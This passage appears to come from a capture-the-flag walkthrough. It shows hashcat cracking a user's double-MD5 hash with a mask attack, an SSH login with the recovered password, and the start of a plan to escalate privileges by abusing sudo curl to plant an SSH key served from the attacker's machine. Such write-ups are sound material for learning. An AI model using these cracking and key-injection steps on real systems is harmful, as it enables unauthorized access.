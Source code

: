     * **Action:** Save the `argiscard` hash to `~/robots_payloads/hashes.txt`.

    * **Command (executed on attacker machine):**

        ```bash

        hashcat -m 2600 -a 3 ~/robots_payloads/hashes.txt "argiscard?d?d?d" --outfile cracked.txt --force

        ```

        * `-m 2600`: MD5(MD5($pass)).

        * `-a 3`: Mask attack.

        * `"argiscard?d?d?d"`: Mask for `username + three digits`.

    * **Observation:** Hashcat cracked the password: **`argiscard209`**.


10. **SSH into `argiscard`:**

    * **Action:** Log in as `argiscard` using the cracked password.

    * **Command:**

        ```bash

        ssh argiscard@<TARGET_IP>

        ```

    * **Input Password:** `argiscard209`

    * **Observation:** Successfully gained access as `argiscard`.


---


## Phase 4: Privilege Escalation to `dooly_vow`


**Objective:** Escalate privileges from `argiscard` to `dooly_vow` by exploiting a `sudo` vulnerability with `curl` and SSH key injection.


### Tools & Commands Used:


* **`sudo`:** To check user privileges and execute commands as other users.

* **`ssh-keygen`:** To generate SSH key pairs.

* **`curl`:** To transfer files to the target machine (leveraging a `sudo` vulnerability).

* **Python's `http.server`:** To host the SSH public key.


### Steps:


1.  **Enumerate `sudo` Privileges for `argiscard`:**

    * **Action:** Check what `sudo` commands `argiscard` can run.
